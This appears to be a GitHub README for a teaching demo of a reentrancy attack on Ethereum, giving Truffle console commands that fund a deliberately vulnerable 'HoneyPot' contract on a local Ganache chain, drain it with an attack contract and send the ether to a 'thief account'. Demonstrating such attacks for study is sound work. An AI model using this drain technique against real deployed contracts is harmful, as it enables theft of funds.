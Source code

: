 # honeyPotReentrancyAttack
Example of vulnerable contract and an attack contract that would drain all money from vulnerable contract.


## Prerequisites
1. Make sure you have `Ganache` running on localhost:8545, if no `Ganache` installed, see https://www.trufflesuite.com/ganache to install.

## Set up
`truffle compile`

`truffle migrate`

`truffle console`



## Quick run 

HoneyPot.deployed().then(instance => honeyPotAddress = instance.address)
web3.eth.getBalance(honeyPotAddress)

web3.eth.getAccounts().then(function(acc){ accounts = acc })
accounts[1]
HoneyPot.deployed().then(instance => instance.put({from: accounts[1], value: web3.utils.toWei("10", "ether") }))
web3.eth.getBalance(honeyPotAddress)

HoneyPotCollect.deployed().then(instance => evilContractAddress = instance.address)
web3.eth.getBalance(evilContractAddress)

HoneyPotCollect.deployed().then(inst => inst.collect({ value: web3.utils.toWei("1", "ether"), gas: 1000000 }))
web3.eth.getBalance(evilContractAddress)

HoneyPotCollect.deployed().then(inst => inst.kill())

HoneyPot.deployed().then(instance => instance.put( {value: web3.utils.toWei("8", "ether")}))
HoneyPot.deployed().then(instance => instance.balances(accounts[0]))
HoneyPot.deployed().then(instance => instance.get())


## truffle console commands
Get Honey pot contract address

`HoneyPot.deployed().then(instance => honeyPotAddress = instance.address)`

Check its balance:

`web3.eth.getBalance(honeyPotAddress).toString(10)`

Send money to honey pot address from accounts[1]:

`web3.eth.getAccounts().then(function(acc){ accounts = acc }) `
`accounts[1]`

`HoneyPot.deployed().then(instance => instance.put({from: accounts[1], value: web3.utils.toWei("5", "ether") }))`

Check again honeypot contract balance:

`web3.eth.getBalance(honeyPotAddress)`

Get Attack contract address:

`HoneyPotCollect.deployed().then(instance => evilContractAddress = instance.address)`

Check its balance:

`web3.eth.getBalance(evilContractAddress)`

Attack HoneyPot contract with evil contract:

`HoneyPotCollect.deployed().then(inst => inst.collect({ value: web3.utils.toWei("5", "ether"), gas: 1000000 }))`

Transfer ether to the thief account:

`HoneyPotCollect.deployed().then(inst => inst.kill())`
